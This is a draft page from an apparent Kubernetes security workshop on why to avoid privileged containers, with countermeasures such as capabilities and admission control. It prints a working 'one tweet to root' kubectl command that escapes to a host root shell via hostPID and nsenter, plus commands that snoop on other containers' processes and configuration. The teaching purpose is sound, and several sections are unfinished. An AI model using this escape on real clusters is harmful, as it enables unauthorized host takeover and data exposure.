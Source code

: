 +++
categories = []
date = "2020-02-22"
description = ""
slug = ""
tags = []
title = "Avoid privileged mode"
draft = false
toc = true
weight = 65
+++

### Introduction
In this exercise, we cover:

 - What `--privileged` mode does
 - The crazy things it allows
 - How you might be able to replace it

### How to use it yourself
use the capabilities field in the pod securitycontext (container??) rather than privileged mode

to know what caps you need, consider "capable"

remember that all of these changes should go through CI and testing

### Setup
We'll exec directly into a container in this example.

This example is based on Ian Coldwater and Duffie Cooley's example from [Black Hat USA 2019](https://github.com/mauilion/blackhat-2019).

As a preliminary step, we'll deploy nginx and then spy on it later.
_(Note: adjust the replica count to match the number of nodes in your cluster.)_

```
kubectl create deployment nginx --image=nginx:stable
kubectl scale deployment nginx --replicas 2
kubectl get pods -w
```

To start, we'll use [Duffie Cooley's "one tweet to root"](https://twitter.com/mauilion/status/1129468485480751104)—it takes less than 280 characters!

```
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

Here's that spec again, pretty-printed:
```json
{
  "spec": {
    "hostPID": true,
    "containers": [
      {
        "name": "1",
        "image": "alpine",
        "command": [
          "nsenter",
          "--mount=/proc/1/ns/mnt",
          "--",
          "/bin/bash"
        ],
        "stdin": true,
        "tty": true,
        "securityContext": {
          "privileged": true
        }
      }
    ]
  }
}
```

You'll notice:
 - `"hostPID": true` — The container is entering the host's process (PID) namespace
 - `"privileged": true` — The container is running in `--privileged` mode
 - `"stdin": true, "tty": true` — We'll attach a terminal to the running container when it starts
 - `"command"` — It's going to start out using `nsenter` to go into the **host**'s PID 1 (first process)

### "Attack"
Once we are in this shell, we can do some fun stuff to explore the host and learn about other processes and containers.

```
ls /proc/*/env

pgrep -a nginx
(nsenter -n -t $(pgrep nginx | head -n1) ss -ln)
(nsenter -m -t $(pgrep nginx | head -n1) cat /etc/nginx/nginx.conf)
```

TODO host manipulations

### Countermeasure
Avoid `--privileged` mode and `hostPID` unless super necessary.

Consider applying admission control (using a dynamic admission controller or a `PodSecurityPolicy`) to block privileged containers by default.

### Attack effects after patching

- With `hostPID: false`:
- With `privileged: false`:
- With both:


### Next up
We'll cover Linux capabilities in the next exercise:

[**Minimize Linux capabilities**](../70-caps)
